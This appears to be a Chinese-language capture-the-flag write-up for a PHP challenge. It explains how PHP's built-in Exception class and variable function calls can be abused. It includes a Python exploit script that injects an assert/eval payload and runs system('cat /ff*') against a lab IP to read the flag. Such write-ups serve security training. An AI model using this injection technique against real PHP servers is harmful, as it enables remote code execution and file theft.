

# 天狗的PHP

## 出题意图

这题就是很经典的PHP原生类和可变函数的利用。

其实更像是PHP信息收集的题。

## 解题思路

首先，我们很明确的是这题需要能够被我们控制的字符串。

题目中没有导入其他的类，那么可以使用的就是PHP的原生类了。

PHP原生类博客：https://www.anquanke.com/post/id/264823#h3-2

可以发现，我们能够利用Exception类，可以利用__toString()和getMessage()方法

**需要注意的是，__toString方法的结果依赖于PHP的版本，请注意本题PHP版本。**

exp如下：

```python
import requests

params = {
    "a" : "Exception",
    "b" : "asserteval($_POST[1]);",
    "c" : "__toString",
    "d" : "36",
    "e" : "6",
    "f" : "42",
    "g" : "16"
}

data = {
    "1":"system('cat /ff*');"
}

url = "http://10.10.175.247:33428"

r  = requests.post(url = url,
                   params=params,
                   data=data)

print(r.text)
```

hackerbar使用截图



